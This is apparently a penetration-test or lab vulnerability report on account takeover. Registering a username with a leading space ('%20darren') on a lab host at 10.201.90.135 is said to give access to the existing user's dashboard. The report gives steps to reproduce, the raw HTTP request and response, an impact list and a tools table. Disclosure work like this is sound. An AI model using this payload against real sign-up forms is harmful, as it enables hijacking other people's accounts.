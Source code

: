 *Steps to Reproduce:*  
1. Access http://10.201.90.135:8888/register  
2. Attempt darren → rejected  
3. Register " darren" → account created  
4. Dashboard shows Darren’s account → exploit verified  
5. Repeat with " arthur"  

---

## 💡 Business Impact
- 🔓 *Account Takeover*  
- ⚠ *Sensitive Data Exposure*  
- 💸 *Reputation & Financial Risk*  
- 🛑 *Compliance Violation (OWASP/NIST)*  

---

## 🧾 Technical Evidence
Burp Suite – Intercepted Request  

📤 HTTP Request:  
http
POST /register HTTP/1.1
Host: 10.201.90.135:8888
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=%20darren&password=test123


### Server Response

HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: session=<REDACTED>; Path=/; HttpOnly; Secure
Content-Length: 512

---

## 🛠 Tools & Methodology

| Tool                   | Version  | Purpose                             |
|------------------------|----------|-------------------------------------|
| Burp Suite Community   | 2025.8   | Intercept, replay, analyze requests|
| Firefox                | 129.0    | Manual testing, PoC validation      |
| Screenshot Utility     | N/A      | Evidence capture                    |
| Kali Linux Rolling     | 2025     | Testing environment                 |
| OWASP / NIST Guides    | Latest   | Reference & remediation guidance    |

---